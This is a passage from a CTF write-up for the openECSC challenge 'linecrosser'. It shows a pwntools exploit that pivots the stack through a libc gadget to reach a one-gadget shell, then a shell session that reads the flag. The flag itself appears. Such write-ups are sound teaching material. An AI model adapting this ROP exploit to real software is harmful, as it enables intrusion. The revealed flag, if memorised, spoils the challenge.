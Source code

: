 ```python
...

context.clear(arch='amd64')

...

# this one requires `binutils` installed; otherwise, hardcode offset 0xe91d3
gadget0 = next(chall.libc.search(
    asm('lea rsp, [rbp - 0x10] ; pop r12 ; pop r13 ; pop rbp ; ret'),
    executable=True
))
gadget1 = chall.libc.address + 0xebd52
addr_buffer = chall.addr_stack_prompts - 0x440
payload = flat({
    # A gadget for stack pivoting
    # cyclic: raajsaaj
    968: p64(gadget0),

    # RBP: gadget0 sets RSP=[RBP-0x10], so the below points RSP to the
    # beginning of the stack buffer where the cyclic pattern is.
    # cyclic: paajqaaj
    960: p64(addr_buffer + 0x10),

    # values set by gadget0 to invoke gadget1 
    0: [
        # r12: cyclic: aaaabaaa
        p64(0),
        # r13: cyclic: caaadaaa
        p64(0),
        # rbp: cyclic: eaaafaaa
        p64(chall.addr_stack_prompts), # just something writable
        # ret: cyclic: gaaahaaa
        p64(gadget1),
    ],
}, length=1024)

chall.create_custom_card_prompt(payload, 0)
chall.io.sendlineafter(b'Exit\n', b'4')
chall.io.interactive()
chall.io.close()
```

It works!

```sh
[*] Switching to interactive mode
$ cat flag
openECSC{d0_y0u_l1k3_pr0b4b1listic_st4ck_p1v0t1ng?_961e1e1c}
```

Complete exploit: [pwn02-linecrosser-exploit.py](./pwn02-linecrosser-exploit.py).

## Bonus Content
